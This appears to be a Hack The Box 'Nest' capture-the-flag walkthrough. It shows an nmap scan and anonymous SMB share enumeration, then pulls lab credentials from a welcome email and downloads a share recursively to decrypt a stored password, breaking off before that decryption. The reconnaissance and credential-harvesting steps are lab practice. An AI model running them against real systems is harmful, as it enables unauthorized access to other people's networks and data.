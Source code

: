 ```yaml
---
title: Hack the box Nest walkthrough 
date: 2020-06-02 08:46:00 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [TAG]     # TAG names should always be lowercase
---
```

# overview 
tools used: nmap,smbclient,smbget, dot net fiddle, dnspy

# service enumeration
first, I run Nmap to find open ports, services, and service versions.
```bash
kali@kali:~/htb/nest$ Nmap -T4 -A -p- 10.10.10.178 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-27 15:43 EDT
Nmap scan report for 10.10.10.178
The host is up (0.057s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE VERSION
445/tcp open Microsoft-ds?
4386/tcp open unknown

| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
| Reporting Service V1.2
| FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
| Reporting Service V1.2
| Unrecognised command
| Help:
| Reporting Service V1.2
| This service allows users to run queries against databases using the legacy HQK format
| AVAILABLE COMMANDS ---
| LIST
| SETDIR <Directory_Name>
| RUNQUERY <Query_ID>
| DEBUG <Password>
|_ HELP <Command>

1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Host script results:

|_clock-skew: 3m38s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-05-27T19:51:29
|_ start_date: 2020-05-27T19:41:37

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap did: 1 IP address (1 host up) scanned in 301.07 seconds
kali@kali:~/htb/nest$
```
the Nmap scan tells me that there are two ports open 445/smb and 4386/HQK reporting I SMB is what I am most familiar with so I will start with that.
# SMB share enumeration 
the following command lists the shares.
```bash
kali@kali:~/htb/nest$ smbclient -L \\\\10.10.10.178
Enter WORKGROUP\kali's password:

        Sharename      Type      Comment
        ---------      ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk     
        IPC$            IPC      Remote IPC
        Secure$        Disk     
        Users          Disk     
SMB1 disabled -- no workgroup available
```
the Data share seams to be accessible anonymously.

```bash
kali@kali:~/htb/nest$ smbclient  \\\\10.10.10.178\\Data
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> ls
  .                                  D        0  Wed Aug  7 18:53:46 2019
  ..                                  D        0  Wed Aug  7 18:53:46 2019
  IT                                  D        0  Wed Aug  7 18:58:07 2019
  Production                          D        0  Mon Aug  5 17:53:38 2019
  Reports                            D        0  Mon Aug  5 17:53:44 2019
  Shared                              D        0  Wed Aug  7 15:07:51 2019

\IT
NT_STATUS_ACCESS_DENIED listing \IT\*
\Production
NT_STATUS_ACCESS_DENIED listing \Production\*
\Reports
NT_STATUS_ACCESS_DENIED listing \Reports\*
\Shared
  .                                  D        0  Wed Aug  7 15:07:51 2019
  ..                                 D        0  Wed Aug  7 15:07:51 2019
  Maintenance                        D        0  Wed Aug  7 15:07:32 2019
  Templates                          D        0  Wed Aug  7 15:08:07 2019
\Shared\Maintenance
  .                                  D        0  Wed Aug  7 15:07:32 2019
  ..                                 D        0  Wed Aug  7 15:07:32 2019
  Maintenance Alerts.txt             A       48  Mon Aug  5 19:01:44 2019
\Shared\Templates
  .                                  D        0  Wed Aug  7 15:08:07 2019
  ..                                 D        0  Wed Aug  7 15:08:07 2019
  HR                                 D        0  Wed Aug  7 15:08:01 2019
  Marketing                          D        0  Wed Aug  7 15:08:06 2019
\Shared\Templates\HR
  .                                  D        0  Wed Aug  7 15:08:01 2019
  ..                                 D        0  Wed Aug  7 15:08:01 2019
  Welcome Email.txt                  A      425  Wed Aug  7 18:55:36 2019
\Shared\Templates\Marketing
  .                                  D        0  Wed Aug  7 15:08:06 2019
  ..                                 D        0  Wed Aug  7 15:08:06 2019
smb: \>
```

the `Maintenance Alerts.txt` and `Welcome Email.txt` look interesting
you can retrieve them using the following commands. 
```bash
kali@kali:~/htb/nest$ smbclient  \\\\10.10.10.178\\Data
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> cd \Shared\Maintenance
smb: \Shared\Maintenance\> mget "Maintenance Alerts.txt"
Get file Maintenance Alerts.txt? Yes
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance Alerts.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \Shared\Maintenance\> cd ../Templates/HR
smb: \Shared\Templates\HR\> mget "Welcome Email.txt"
Get file Welcome Email.txt? Yes
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (2.0 KiloBytes/sec) (average 1.1 KiloBytes/sec)
smb: \Shared\Templates\HR\>
```
the "Welcome Email.txt" file has smb login creds
```
kali@kali:~/htb/nest$ cat Welcome\ Email.txt
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR
```
TempUser has access to  a visual basic project at Secure$\IT\Carl you can download all of carls files using the following command
```bash
smbget -rR smb://10.10.10.178/Secure$/IT/Carl/ -U TempUser
```
you can move the project files from /Secure$/IT/Carl//VB Projects/WIP/RU/RUScanner/  to [dotnetfiddle.net](https://dotnetfiddle.net/) this lets us use the code to decrypt the encrypted password in **RU_Config.xml**

